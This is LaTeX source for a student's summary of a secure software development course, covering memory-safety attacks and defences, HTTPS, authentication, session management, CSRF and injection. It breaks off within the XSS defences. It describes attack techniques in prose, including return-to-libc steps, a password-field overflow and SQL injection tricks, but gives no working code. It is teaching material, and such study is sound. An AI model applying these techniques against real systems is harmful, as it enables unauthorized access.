\documentclass[12pt,titlepage,a4paper]{report}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{lmodern}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{wrapfig}
\usepackage{hyperref}
\usepackage{fullpage}
\usepackage{textcomp}
\usepackage[table]{xcolor}
\usepackage[english]{babel}

\renewcommand{\familydefault}{\sfdefault}


\author{Stijn Caerts}
\title{Development of Secure Software\\\small{Summary}}
\begin{document}
	\maketitle
	\tableofcontents
	\newpage
	
	\chapter{Introduction}
	All security incidents are consequences of vulnerabilities in the underlying systems (web servers, operating systems, applications).
	
	\section{Key-concepts}
	\subsection{Security goals or policy}
	\begin{itemize}
		\item \textbf{desirable properties} one wishes to maintain
		\item can be classified as Confidentiality, Integrity or Availability goals (CIA) of identified assets
		\begin{itemize}
			\item assets: information, services, infrastructure, ...
		\end{itemize}
	\end{itemize}

	\subsection{Adversary model}
	\begin{itemize}
		\item capabilities and resources of the \textbf{intelligent adversary} are made explicit
		\begin{itemize}
			\item bounded in some way, otherwise achieving security goal may be infeasible
			\item \emph{eg. the adversary cannot factor the product of two large primes}
		\end{itemize}
		\item \textbf{threat-driven} vs \textbf{goal-driven security}
		\begin{itemize}
			\item \textbf{threat-driven}: start by identifying potential threats against the system and come up with countermeasures
			\item \textbf{goal-driven}: start by eliciting security goals and come up with security mechanisms to guarantee them
			\item threats threaten specific assets
			\begin{itemize}
				\item \emph{eg. Spoofing, Tampering, Repudiation, Information disclosure, Denial-of-Service, Elevation of privileges (STRIDE)}
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{Security argument}
	\begin{itemize}
		\item rigorous argument that under a given adversary model:
		\begin{itemize}
			\item a countermeasure counters the relevant threat, or
			\item a security mechanism achieves the relevant security goal
		\end{itemize}
	\end{itemize}

	\subsection{Vulnerability}
	\begin{itemize}
		\item aspect of the system that allows the adversary to break a security goal
		\item can enter the system:
		\begin{itemize}
			\samepage
			\item early in the development life cycle
			\begin{itemize}
				\item failure to identify relevant security goals or adversaries
			\end{itemize}
			\item during construction of the system
			\begin{itemize}
				\item bugs in security mechanism
				\item incorrect security arguments: relying on abstractions that are not maintained in the presence of an intelligent adversary
			\end{itemize}
			\item during operation of the system
			\begin{itemize}
				\item bugs in the configuration of a security mechanism
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{Countermeasures}
	\begin{itemize}
		\item types:
		\begin{itemize}
			\item Preventive: avoid vulnerability
			\item Detective: detect vulnerability exploitation
			\item Reactive: handle incidents
		\end{itemize}
		\item can be taken by various stakeholders
		\begin{itemize}
			\item Software Engineers
			\begin{itemize}
				\item early phases: security requirements engineering, threat analysis
				\item for threats discovered during RE $\rightarrow$ security technologies:
				\begin{itemize}
					\item cryptography, authentication mechanisms, access control, ...
				\end{itemize}
				\item for vulnerabilities during construction:
				\begin{itemize}
					\item secure programming, safe languages, static analysis, ...
				\end{itemize}
				\item for vulnerabilities during operation:
				\begin{itemize}
					\item documentation, operational procedures, secure defaults, ...
				\end{itemize}
			\end{itemize}
			\item Administrator
			\begin{itemize}
				\item Preventive:
				\begin{itemize}
					\item deployment of additional protection: Firewalls, VPN's, ...
					\item patching weakness where possible: security updates
				\end{itemize}
				\item Detective:
				\begin{itemize}
					\item Intrusion Detection or Fraud Detection software
					\item Virus scanning
				\end{itemize}
				\item Security solutions should be managed, supporting reactive countermeasures
			 \end{itemize}
		\end{itemize}
	\end{itemize}

	\section{Vulnerabilities in practice}
	\begin{itemize}
		\item "Securing" software = reducing the number of vulnerabilities in software, giving preference to those that contribute most to risk
		\item Important to know what vulnerabilities matter most in practice
		\begin{itemize}
			\item Researchers have been studying vulnerabilities (and their exploitations) for decades
		\end{itemize}
		\item Most vulnerabilities have to do with input/output validation or defensive programming
		\item \textbf{Software security} is strongly related to \textbf{software quality}
	\end{itemize}


	\chapter{Low-level Software Security}
	\section{Introduction}
	\subsection{Understanding execution of C programs}
	\begin{itemize}
		\item C code is compiled to machine code
		\item each function can be compiled separately
		\item control flow tracked by \emph{call-stack}
		\item variable location:
		\begin{itemize}
			\item local variables: on the call-stack
			\item global variables: statically
			\item using a memory management library for dynamically allocated storage (\texttt{malloc}/\texttt{new})
		\end{itemize}
	\end{itemize}
	\begin{table}[h!]
		\centering
		\begin{tabular}{| l | c}
			\cline{1-1}
			Arguments/Environment & High addresses \\ \cline{1-1}
			Stack & Stack grows down \\ \cline{1-1}
			\cellcolor{gray}Unused and Mapped Memory & \\ \cline{1-1}
			Heap (dynamic data) & Heap grows up \\ \cline{1-1}
			Static Data & \\ \cline{1-1}
			Program code & Low addresses \\ \cline{1-1}
		\end{tabular}
		\caption{Process memory layout}
	\end{table}

	\subsubsection{The call-stack}
	\begin{itemize}
		\item activation record
		\begin{itemize}
			\item arguments
			\item return address
			\item previous stack pointer
			\item automatically allocated local variables
		\end{itemize}
	\end{itemize}
	
	
	\subsection{Memory safety vulnerabilities}
	\begin{itemize}
		\item relevant for \textit{unsafe} languages
		\begin{itemize}
			\item languages that do not check whether programs access memory in a correct way
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Types}
	\begin{itemize}
		\item Spatial safety errors
		\begin{itemize}
			\item index an array out-of-bounds
			\item invalid pointer arithmetic
		\end{itemize}
		\item Temporal safety errors
		\begin{itemize}
			\item use after free
			\item double free
		\end{itemize}
		\item Accessing uninitialized memory
		\item Unsafe \texttt{libc} API functions
		\begin{itemize}
			\item eg. \texttt{printf()}: format string vulnerabilities
		\end{itemize}
	\end{itemize}

	\subsubsection{Exploiting}
	\begin{itemize}
		\item C programs don't detect bugs at run-time
		\begin{itemize}
			\item behaviour of a buggy program is \emph{undefined}
			\item depends on compiler, OS, processor architecture, ...
			\item use knowledge of these lower layers to exploit the program
		\end{itemize}
	\end{itemize}

	\section{Attacks}
	\subsection{Stack-based buffer overflow}
	\begin{itemize}
		\item The stack is a memory area used at run-time to track function calls and returns
		\begin{itemize}
			\item per call: activation record containing return address, automatically allocated local variables, ...
		\end{itemize}
		\item by overflowing a local buffer variable, interesting memory locations can by overwritten
		\begin{itemize}
			\item simplest attack is to overwrite the return address so that it points to attacker-chosen code (\emph{shell code})
		\end{itemize}
		\item lots of details to get it right
		\begin{itemize}
			\item no nulls in (character-)strings: {\texttt{strcpy()} is terminated by null byte (\texttt{'\textbackslash0'})}
			\item filling in the correct return address:
			\begin{itemize}
				\item fake return address must be precisely positioned
				\item attacker might not know the address of his own string
			\end{itemize}
			\item other overwritten data must not be used before return from function
		\end{itemize}
	\end{itemize}

	\subsection{Heap-based buffer overflows}
	\begin{itemize}
		\item buffer on the heap that has overflow vulnerability
		\begin{itemize}
			\item no return address nearby, therefore overwrite other code pointers
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Overwriting a function pointer}
	\begin{itemize}
		\item Overflow the buffer and overwrite a function pointer
		\begin{itemize}
			\item point back to malicious code placed in the buffer
			\item shell code gets executed when function would be called
		\end{itemize}
	\end{itemize}

	\begin{figure}[h]
		\centering
		\includegraphics*[scale=0.75]{assets/img/HeapBufferOverflowFunctionPointer.png}
		\caption{\label{img:heapBufferOverflowFuncionPointer}Overflow the buffer and overwrite the function pointer}
	\end{figure}
	
	\subsubsection{Overwriting heap meta data}
	\begin{itemize}
		\item dynamically allocated memory managed by memory allocation library
		\begin{itemize}
			\item function calls to allocate and free chunks of memory: \texttt{malloc()} and \texttt{free()}
		\end{itemize}
		\item management information stored in-band
		\begin{itemize}
			\item buffer overruns on the heap can overwrite this management information
			\item enables ``indirect pointer overwrite''-like attack allowing attackers to overwrite arbitrary memory locations
		\end{itemize}
	% TODO add more information
	
		\item indirect pointer overwrite
		\begin{itemize}
			\item overwriting a pointer that is later dereferenced for writing
			\item allows to selectively change memory contents
			\item program is vulnerable if:
			\begin{itemize}
				\item it contains a bug that allows overwriting a pointer value
				\item the pointer value is later dereferenced for writing
				\item the value written is under control of the attacker
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{Return-to-libc attacks}
	\begin{itemize}
		\item \emph{Direct code injection}, where an attacker injects code as data is not always feasible
		\item \emph{Indirect code injection} attacks will drive the execution of the program by manipulating the stack
		\item makes it possible to execute code fragments present in memory (usually interesting code is available, like libc)
	\end{itemize}
	\paragraph{How?}
	\begin{itemize}
		\item Inject the fake stack: put data in a buffer
		\item Make the stack pointer point to the fake stack right before a return instruction is executed
		\begin{itemize}
			\item can be done by jumping to a trampoline
		\end{itemize}
		\item Make the stack execute existing functions to do a direct code injection
	\end{itemize}
	%TODO add more information
	
	\subsection{Data-only attacks}
	\begin{itemize}
		\item Only change data of the program under attack
		\item Unix password attack
		\begin{itemize}
			\item Login process:
			\begin{enumerate}
				\item Read username
				\item Look up hashed password
				\item Read password
				\item Check if hashed password == hash(password)
			\end{enumerate}
			\item By overflowing the password field, the looked up hash will be overwritten
			\item \textbf{Exploit}: type a random password of the correct length, followed by its hash
		\end{itemize}
		%TODO add information about overwriting environment table
	\end{itemize}

	\section{Defences}
	\subsection{Stack canaries}
	\begin{itemize}
		\item Insert a value (= canary) in a stack frame right before the stored base pointer/return address
		\item Verify on return from a function that this value was not modified
		\item Canary is a random number, store its value in a register or part of protected memory for later verification
		\item Prevents continuous overflows
	\end{itemize}
	
	\subsection{Non-executable data}
	\begin{itemize}
		\item Direct code injection attacks execute code inserted in data
		\item Most programs don't need to execute data
		\item \textbf{Countermeasure}: mark data memory (stack, heap, ...) as non-executable
		\item Prevents direct code injection, but not indirect code injection attacks
	\end{itemize}
	
	\subsection{Control-flow integrity}
	\begin{itemize}
		\item Most attacks break the expected control flow
		\item Instrument the code to check the sanity of the control-flow at runtime
		\item Control-flow graph: check if label is the same as what is expected
	\end{itemize}
	
	\subsection{Layout randomization}
	\begin{itemize}
		\item Attacks rely on precise knowledge of runtime memory addresses
		\item Introducing artificial variation in addresses significantly raises the bar for attackers
		\item Address space layout randomization (ASLR) is a cheap and effective countermeasure
	\end{itemize}

	
	\section{Need for other defences}
	Instead of preventing/detecting exploitation of the vulnerabilities at run time:
	\begin{itemize}
		\item prevent the introduction of vulnerabilities in the code
		\item detect and eliminate vulnerabilities at development time
		\item detect and eliminate vulnerabilities with testing
	\end{itemize}

	\subsection{Memory safety vulnerabilities}
	\subsubsection{Spatial memory safety errors}
	\begin{itemize}
		\item Blob of allocated memory is accessed out of bounds
		\item Solution:
		\begin{itemize}
			\item Type checking for structs and arrays with statically known bounds 
			\begin{itemize}
				\item eg. Java type system will make sure you can not access a non-existing field of an object
			\end{itemize}
			\item Runtime bounds checking
			\item Forbid pointer arithmetic
		\end{itemize}
	\end{itemize}

	\subsubsection{Temporal memory safety errors}
	\begin{itemize}
		\item Blob of memory is accessed after it has been deallocated
		\item How long are pointers valid?
			\subitem Depends on how the pointer is created
		\item Solution:
		\begin{itemize}
			\item Allocate everything on the heap and do \emph{garbage collection}
			\begin{itemize}
				\item Programmer can not explicitly deallocate memory
				\item At regular intervals, the program will be halted and the runtime system will clean up unused memory
				\begin{itemize}
					\item Check what memory is reachable from the current program state and deallocate all the rest
				\end{itemize}
			\end{itemize}
			\item Disadvantages
			\begin{itemize}
				\item Less precise control over memory
				\item Unpredictable timing
			\end{itemize}
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Pointer forging}
	\begin{itemize}
		\item Creating an invalid pointer value
		\begin{itemize}
			\item By invalid casts
			\item By use of uninitialized memory
		\end{itemize}
	\end{itemize}
	
	\subsubsection{Unsafe primitive API functions}
	\begin{itemize}
		\item Like C's \texttt{printf()}, \texttt{gets()}, ... functions
	\end{itemize}
	
	\subsection{Preventing introduction}
	\begin{itemize}
		\item Safe programming languages take memory management out of the programmer's hands
			\subitem Java, C\#
		\item Makes it impossible to introduce exploitable memory safety vulnerabilities
		\item But there is a cost associated with using safe languages
	\end{itemize}
	
	\subsection{Detect and eliminate vulnerabilities}
	\begin{itemize}
		\item Code review
		\item Static analysing tools
		\begin{itemize}
			\item simple tools that detect unsafe functions
			\item advanced heuristic tools that have false positives and false negatives
			\item sound tools that require significant programmer effort to annotate the program
		\end{itemize}
		\item Testing tools
		\begin{itemize}
			\item Fuzz testing
			\item Directed fuzz-testing / symbolic execution
			\item Runtime memory safety checkers
		\end{itemize}
	\end{itemize}
	
	\chapter{Web Security Fundamentals (MOOC)}
	\section{Is security an illusion?}
	\subsection{The web security landscape}
	\begin{itemize}
		\item Every website is valuable, even when no user data is stored. The websites' resources (storage, processing power, ...) are interesting for hackers.
		\item Security is often seen as an obstruction to functionality and productivity. It is often ignored until the very last moment.
		\begin{itemize}
			\item Penetration tests alone are not enough (may not find all threats, fundamental problem may require an entire redesign of the application, ...).
			\item Every developer should be aware about security and secure coding guidelines.
		\end{itemize}
	\end{itemize}

	\subsection{The security model of the web}
	\begin{itemize}
		\item URL: \texttt{[scheme]://[host]:[port]/[path]?[query]\#[fragment]}
		\begin{itemize}
			\item Fragment part is never sent to the server (client-side only).
		\end{itemize}
		\item Origin: scheme, host and port
		\item Same-Origin Policy (SOP)
		\begin{itemize}
			\item Contexts from the same origin can freely interact with each other, contexts from different origins are isolated.
			\item Browsing context is protected against undesired access.
		\end{itemize}
		
		\item Cookies
		\begin{itemize}
			\item belong to domains, not origins!
			\item key-value pair, used to track session information
			\item set by server, sent by browser
			\begin{itemize}
				\item stored in cookie jar (browser)
				\item for every outgoing request, the browser consults the cookie jar for that domain and automatically attaches them
				\item exchanged through HTTP or accessed via JavaScript
			\end{itemize}
			\item \texttt{Domain} attribute (determines scope)
			\begin{itemize}
				\item send cookie to all sub-domains of registered domain
			\end{itemize}
			\item \texttt{Path} attribute (determines scope)
			\begin{itemize}
				\item only attach cookie to requests to a resource within the path
			\end{itemize}
		\end{itemize}
		
		\item Client-centric security
		\begin{itemize}
			\item browser as an application platform
			\item need for extra security policies, under control of the server, but enforced by the browser
		\end{itemize}
	\end{itemize}


	\section{Securing the communication channel}
	\begin{itemize}
		\item Sensitive browser APIs (location, ...) are only available in a secure context (HTTPS, localhost).
	\end{itemize}

	\subsection{Underpinnings of HTTPS}
	\begin{itemize}
		\item Security properties
		\begin{itemize}
			\item Extra protocol in network stack between application and transport layer: SSL/TLS
				\subitem Secure Sockets Layer (SSL) = Transport Layer Security (TLS)
			\item TLS record encapsulates HTTP message and ensures confidentiality and integrity
			\item Record protocol: confidentiality, integrity
			\item Handshake protocol: negotiate connection, authenticity
			\begin{itemize}
				\item avoid man in the middle attack by verifying identity of the server
			\end{itemize}
			\item Traffic can still be observed
			\item Browser and server negotiate which cryptographic algorithms are used during the handshake
		\end{itemize}
	
		\item \textbf{Confidentiality}
		\begin{itemize}
			\item Symmetric key algorithm (use the same shared key)
		\end{itemize}
	
		\item \textbf{Integrity}
		\begin{itemize}
			\item HMAC function: calulate a checksum
			\subitem tampering is detectable
		\end{itemize}
	
		\item Pre-master secret (PMS)
		\begin{itemize}
			\item secret key, is shared between browser and server during handshake
			\item during handshake, a secure channel is not yet available
			\item use of asymmetric key cryptography for exchanging PMS (server sends it public key to the browser)
		\end{itemize}
	
		\item \textbf{Authenticity}
		\begin{itemize}
			\item certificate, associated with a specific public key with a specific domain
			\item authenticity follows from a valid certificate
		\end{itemize}
	
		\item Misconceptions about HTTPS
		\begin{itemize}
			\item HTTPS is only relevant for sensitive content 
				\subitem users become vulnerable to attacks when a HTTP request is sent
			\item HTTPS has a significant performance impact
			\item Certificates are expensive and hard to configure (\emph{eg. Let's Encrypt})
			\item You can run only one HTTPS site per IP address (\emph{Server Name Indication (SNI)})
		\end{itemize}
	\end{itemize}

	\subsection{Deploying HTTPS}
	\begin{itemize}
		\item Traditional process
		\begin{itemize}
			\item generate key-pair
			\item request certificate from CA by submitting a Certificate Signing Request (CSR) containing the public key and information about who made the request
			\item store certificate next to keys and configure \texttt{nginx} or \texttt{Apache}
		\end{itemize}
		\item Let's Encrypt
		\begin{itemize}
			\item automatically request certificate with a single command
			\item renewing a certificate is also as simple as one command: \texttt{certbot renew}
		\end{itemize}
	
		\item Perfect forward secrecy
		\begin{itemize}
			\item guarantee confidentiality towards the future, if an attacker gets possession of the private key of the server
			\item Diffie-Helman key exchange
			\begin{itemize}
				\item establishing a shared secret over an insecure channel without encryption
				\item paint analogy: Both sides start with the same colour, and add their secret colour. Exchange your bucket with mixed colours and add your own secret colour to the mixed bucket of the other side. Like this, you both will end up with the same secret colour, without anyone else knowing from what colours you started (given that extracting colours from a mixture is hard).
				\item choose new private parameters for each connection (ephemeral Diffie-Helman)
				\item but still vulnerable to man-in-the-middle attacks
					\subitem combined with asymmetric key algorithm
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{HTTPS in your application}
	\begin{itemize}
		\item Mixed content blocking
		\begin{itemize}
			\item browser protects a secure page by refusing to load scripts and styles over an insecure HTTP connection
			\item Passive mixed content: content that is only displayed (images, video, audio)
			\item Active mixed content: full access to the page (scripts, styles, iframes, objects)
			\item all other servers where you include resources from have to support HTTPS
			\item Content Security Policy (CSP)
			\begin{itemize}
				\item control where content is loaded from
				\item server gives browser a policy, browser enforces it on the page
				\item browser can send reports when a given policy is violated
					\subitem see what needs to be fixed before making the transition to HTTPS
			\end{itemize}
		\end{itemize}
	
		\item Partial HTTPS deployment is not the answer
		\begin{itemize}
			\item attacker can modify a page loaded over HTTP, and thus prevent that other (sensitive) pages are loaded over HTTPS
		\end{itemize}
	
		\item Redirection HTTP to HTTPS
		\begin{itemize}
			\item turn off HTTP
			\begin{itemize}
				\item existing links will break
				\item browser can't find page without specified protocol (as it assumes it is HTTP)
			\end{itemize}
			\item redirect all HTTP traffic to HTTPS
			\begin{itemize}
				\item status code \texttt{301} and \texttt{Location} header
			\end{itemize}
		\end{itemize}
	
		\item Strict Transport Security
		\begin{itemize}
			\item SSL stripping attack
			\begin{itemize}
				\item attacker can get man-in-the-middle position by responding to the first HTTP-request and prevent the redirect to HTTPS
			\end{itemize}
		
			\item HTTP Strict Transport Security policy (HSTS)
			\begin{itemize}
				\item tells the browser to use HTTPS by default for a specified period, even when \texttt{http://} is stated explicitly
				\item \texttt{max-age}: lifetime of the policy in seconds, determined by the time between two visits from the same user
				\item \texttt{includeSubdomains} (optional): apply HSTS to all subdomains
				\item first time visit? Trust on first use problem
				\begin{itemize}
					\item HSTS preload list: hardcoded set of domains that support HSTS
				\end{itemize}
				\item disabling an HSTS policy: set \texttt{max-age} to 0
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{Advanced topics}
	\begin{itemize}
		\item Practical deployment scenarios
		\begin{itemize}
			\item multiple websites on one server
			\item server doesn't know which certificate to send, because the handshake doesn't include the domain name
			\item Server Name Indication (SNI) extension of TLS
			\begin{itemize}
				\item include the domain name of the application in the first step of the handshake
				\item appliance: reverse proxy service as a dedicated TLS endpoint \textrightarrow \, proxy establishes secure communication with client and forwards all requests to internal services
			\end{itemize}
		\end{itemize}
	
		\item Trust model behind HTTPS
		\begin{itemize}
			\item Certificate Authority (CA)
			\begin{itemize}
				\item signs certificates with its private key
				\item browser can verify certificate using CA's public key
				\item Intermediate CA: needs a certificate from a higher-level CA to prove legitimacy
				\item Root CA: no higher authority, every browser has a list of hardcoded root CAs and trust these by default
				\item CA must verify if request for certificate is legitimate
				\begin{itemize}
					\item \textbf{Domain validation} verify if the requester is in control of the domain
						\subitem send email to a reserved address, eg. postmaster@[domain]
						\subitem request that a particular response is placed at a specific location
						\subitem cheapest
					\item Organization validation
						\subitem no fixed set of validation rules
					\item Extended validation
						\subitem extensive validation of the business and the certificate request
					\item Difference?
						\subitem Lock icon: domain / organization validation
						\subitem Business name: extended validation
				\end{itemize}
			\end{itemize}
		\end{itemize}
		
		\item Fragility of the certificate ecosystem
		\begin{itemize}
			\item unconditional trust in the root CA
			\item Certificate Transparency (CT)
			\begin{itemize}
				\item log containing all issued certificates
				\item enables discovery of fraudulent certificates
			\end{itemize}
			\item  Certificate Authority Authorization (CAA)
			\begin{itemize}
				\item limit CAs to issue certificates for your domain
				\item configured in DNS records
			\end{itemize}
			\item Key pinning: determine which key the server can use (hard to get right)
		\end{itemize}
	
		\item Certificate transparency
		\begin{itemize}
			\item problem with fraudulent certificates
			\begin{itemize}
				\item issued by a real CA, so accepted by all browsers
				\item detection is slow and mostly accidental
			\end{itemize}
			
			\item Signed Certificate Timestamp (SCT)
			\begin{itemize}
				\item Server sends the SCT alongside the certificate, to proof that it is listed in a log. When both are valid, the browser knows that the certificate is likely not fraudulent.
				\item How is SCT sent to the browser?
					\subitem CA embeds the SCT into the certificate
					\subitem server sends SCT to browser
					\subitem SCT is embedded in stapled OCSP responses
				\item OCSP stapling
				\begin{itemize}
					\item a TLS extension adds OCSP information to the handshake
					\item tells the browser that the certificate is not revoked
				\end{itemize}
			\end{itemize}
			\item log monitoring to detect fraudulent certificates
			\begin{itemize}
				\item certificate not requested by owner, revoke it
			\end{itemize}
		\item only a \textbf{detective measure}, not a preventing one
		\end{itemize}
	\end{itemize}
	
	
	\section{Preventing unauthorized access}
	\begin{itemize}
		\item Introducing state
		\begin{itemize}
			\item HTTP is stateless, all requests are independent from each other
			\item HTTP Basic Authentication
			\begin{itemize}
				\item \texttt{401 Unauthorized}
				\item Ask for credentials: \texttt{200 OK} or \texttt{403 Forbidden}
				\item no encryption (sent over HTTP)
				\item credentials in every request
				\item no easy credential management in browser (close browser to log out)
				\item no UI integration with web application
			\end{itemize}
		\end{itemize}
	\end{itemize}

	\subsection{Secure authentication}
	 \begin{itemize}
	 	\item Problem with passwords: obtaining the password grants access
	 	\begin{itemize}
	 		\item guessing passwords (dictionary, list of frequently used passwords)
	 		\item phishing, stealing from a database
	 	\end{itemize}
 		\item Insecure password storage
 		\begin{itemize}
 			\item plain text
 			\item problematic in a data breach
 			\item hashed passwords (MD5)
 			\begin{itemize}
 				\item two users have the same password \textrightarrow \, observable
 				\item rainbow tables: password with corresponding hash
 			\end{itemize}
 			\item salted and hashed passwords
 			\begin{itemize}
 				\item precomputation attacks infeasible
 				\item issue = use of hashing algorithms
 					\subitem designed to be fast \textrightarrow \, prone to brute-force attacks
 			\end{itemize}
 		\end{itemize}
 		
 		\item Secure password storage
 		\begin{itemize}
 			\item password hashing function
 			\begin{itemize}
				\item multiple iterations to calculate output
 				\item expensive to execute
 				\item withstand brute force by design
 				\item use of a salt
 				\item eg. \texttt{bcrypt}: output contains algorithm, cost factor ($\geq 12$ recommended), salt and resulting hash
 			\end{itemize}
 			\item upgrade of legacy system
 			\begin{itemize}
 				\item calculate \texttt{bcrypt} hash when a user logs on and still has a legacy hash, at a certain point in time reset all passwords of inactive users
 				\item use MD5 hashes as input for \texttt{bcypt}, and replace them later with a normal \texttt{bcrypt} hash when the user logs on
 			\end{itemize}
 		\end{itemize}
 	
 		\item Preventing enumeration attacks (brute force)
 		\begin{itemize}
 			\item determine if a user account exists in the application
 				\subitem authentication form / account recovery / registration procedure
				\item  preventing enumeration attacks
					\begin{itemize}
						\item don't show different error message when account doesn't exist
						\item only mention account status in email on password recovery
						\item use email as username for application or allow limited number of attempts to choose a username
						\item lock user account on too many faulty guesses, increase slow down
					\end{itemize}
 		\end{itemize}
 	
 		\item Beyond password-based authentication
 		\begin{itemize}
 			\item knowledge-based (password)
 			\item possession-based (physical device)
 			\item user-inherent (biometrical)
 			\item behavior/context-based (user location)
 			\item multi-factor authentication
 				\begin{itemize}
 					\item sometimes still prone to phishing attacks (eg. SMS verification code)
 				\end{itemize}
 		\end{itemize}
	 \end{itemize}
 
 	\subsection{Challenges to session management}
 	\begin{itemize}
 		\item Server-side session management
 		\begin{itemize}
 			\item session object on the server (unique session identifier)
 			\item browser includes SID in every request
 			\item store SID in cookie
 			\begin{itemize}
 				\item new session object is created on first request
 				\item server sends back SID to browser (\texttt{Set-Cookie: SESSIONID=[ID]})
 			\end{itemize}
 			\item \textbf{security depends on secrecy of SID}
 			\begin{itemize}
 				\item impersonation attacks
 				\item insecure generation of SIDs
 				\item insecure transmission of SID
 				\item theft of SID via cross-side scripting
 			\end{itemize}
 		\end{itemize}
 	
 		\item Securing session cookies
 		\begin{itemize}
 			\item session hijacking (attacker steals SID)
 			\item stealing SID over the network
 			\begin{itemize}
 				\item SID cookie is attached to every request to a site, also HTTP requests
 				\item mark session cookie as \texttt{Secure}, so that it is only transferred over HTTPS (use \texttt{Secure} flag when setting cookie)
 				\item attack not possible with Strict Transport Security policy (prevents HTTP requests)
 			\end{itemize}
 			\item stealing cookie from JavaScript
 			\begin{itemize}
 				\item Cross-Site Scripting flaw \textrightarrow \, inject malicious code
 				\item \texttt{HttpOnly} flag in \texttt{Set-Cookie} header
 				\begin{itemize}
 					\item marks cookie as valid for network requests, but not for script-based access
 					\item attached to HTTP and HTTPS requests, but not returned when accessing \texttt{document.cookie}
 				\end{itemize}
 			\end{itemize}
 		\end{itemize}
 	
 		\item Alternative session management mechanisms
 		\begin{itemize}
 			\item Distributed application: replicated on many servers
 			\begin{itemize}
 				\item Sticky sessions: all requests within a session go to the same server
 				\item Sharing session state between servers
 			\end{itemize}
	 		\item Client-side management
	 		\begin{itemize}
	 			\item Session object stored on the client
	 			\item Server no longer needs to track sessions
	 			\item Works well with stateless API-based systems
	 		\end{itemize}
 			\item Impacts of client-side session management on security
 			\begin{itemize}
 				\item Server-side session object is considered trusted
 				\item Client-side session object is inherently untrusted (can be manipulated)
 				\item Integrity check before using data (by server-side generated signature)
 				\item Level of control over sessions: no easy way to list active sessions
 				\item Custom \texttt{Authorization} header for session data (instead of cookies): requires explicit handling in client-side code
 			\end{itemize}
 		\end{itemize}
 	\end{itemize}
	
	\subsection{Getting authorization right}
	\begin{itemize}
		\item Authorization throughout your application
		\begin{itemize}
			\item Protect all entry points, if you miss one your whole application can be compromised
			\item Triple A: Authentication, Authorization, Audit
			\item Authentication: validating the identity/authenticity of the user
			\item Authorization (a priori): check if user is permitted to do an action
			\item Audit (a posteriori): always allow action to proceed, but log it and afterwards check the actions and roll back these that shouldn't have been permitted
		\end{itemize}
	
		\item Intentional and unintentional requests
		\begin{itemize}
			\item Cross-Site Request Forgery (CSRF)
			\begin{itemize}
				\item Browser automatically attaches cookies to outgoing request, regardless of the context they originated from
				\item Server cannot identify the illegitimate request
				\item Operation is executed in the user's name
			\end{itemize}
			\item Defence against CSRF
			\begin{itemize}
				\item Generate user-specific CSRF token that is hidden in the form and also stored in user's session
				\item Token in the submitted form must match the token in the user's session
				\item Same-Origin Policy prevents the attacker from reading the user's token
			\end{itemize}
			\item \texttt{SameSite} cookie flag
			\begin{itemize}
				\item Cookies only used on requests originating from a context within the same site
				\item Site is everything within a registered domain
				\item Applies to domains, not origins
				\item \emph{Strict} mode: cookies are never sent across domains
				\item \emph{Lax} mode: cookies are present on top-level \texttt{GET} requests
					\subitem more user-friendly, but still quite secure
			\end{itemize}
		\end{itemize}
		
		\item Direct access to objects
		\begin{itemize}
			\item Problem
			\begin{itemize}
				\item Direct reference is used in requests
				\item Application lacks authorization checks on operations that use this identifier
			\end{itemize}
			\item Solution
			\begin{itemize}
				\item Implement proper authorization checks
				\item Indirect object references
				\begin{itemize}
					\item Server stores map in user session from indirect references to direct counterparts
					\item User can only access notes that are accessible anyway
				\end{itemize}
			\end{itemize}
		\end{itemize}
	\end{itemize}
	
	\section{Securely handling untrusted data}
	\subsection{Server-side injection attacks}
	\begin{itemize}
		\item Command injection vulnerabilities
		\begin{itemize}
			\item No context: difference between data and code disappears when combining them into a single message
			\item eg. translation of URL into commands
				\subitem URL can be modified by the user and is therefore inherently untrusted
		\end{itemize}
	
		\item Preventing command injection
		\begin{itemize}
			\item Strict input validation
			\begin{itemize}
				\item being too restrictive breaks the application
				\item being too lax leaves vulnerabilities
			\end{itemize}
			\item Preserve context information
			\begin{itemize}
				\item encode dangerous characters in the data (\texttt{escapeshellcmd()} in PHP)
				\item use safe APIs
				\begin{itemize}
					\item more explicit than encoding
					\item specify command and parameters separately
					\item preserves context information until execution
				\end{itemize}
			\end{itemize}
		\end{itemize}
	
		\item SQL injection
		\begin{itemize}
			\item Attacker controls SQL code running on database server
			\item Data extraction/modification/deletion
			\item Lack of context results in failure to distinguish data from code at the moment of execution
			\item Attacks: append query with \texttt{;}, \texttt{UNION} to combine tables, disable filtering by appending a boolean clause, inject comment symbol \texttt{-\,-}
		\end{itemize}

		\item Preventing SQL injection
		\begin{itemize}
			\item Input validation: lax input validation as a first defence
			\item Prepared statements and variable binding
			\begin{itemize}
				\item Put place-holders where untrusted data needs to go
				\item Bind untrusted data to place-holder
				\item Provides proper context information
				\item Does not work for the names of columns or tables
					\subitem Use untrusted input to select value from whitelisted set or use encoding
			\end{itemize}
		\end{itemize}
	\end{itemize}
	
	\subsection{Client-side injection attacks}
	\begin{itemize}
		\item Traditional XSS attacks
		\begin{itemize}
			\item Cross-Site Scripting
			\item Attacker executes code in the browsing context, possesses the full power of JavaScript
			\item Consequences
			\begin{itemize}
				\item defacement of the page
				\item stealing sensitive information from the browser
				\item advanced JavaScript payloads (keyloggers, network scanners)
			\end{itemize}
			\item Reflected XSS
			\begin{itemize}
				\item Payload is sent to the server as part of requested data
				\item Server incorporates payload into the HTML page of the response
				\item Payload is executed in the browser
				\item Attacker can embed an \texttt{iframe} with a request with a payload in another site to execute it in the victim's browser
			\end{itemize}
			\item Stored XSS
			\begin{itemize}
				\item Payload is stored in the database
				\item Attacker's code is executed when the user's browser renders the page containing this database information
				\item Attack happens within the application, does not involve a cross-site request
			\end{itemize}
		\end{itemize}
	
		\item Common defences against XSS attacks
		\begin{itemize}
			\item Strict input validation
			\begin{itemize}
				\item Prevent dangerous characters or strings: \texttt{<}, \texttt{>}, \texttt{<script>}
				\item Helps avoid confusion between data and code
			\end{itemize}
			\item Output encoding
			\begin{itemize}
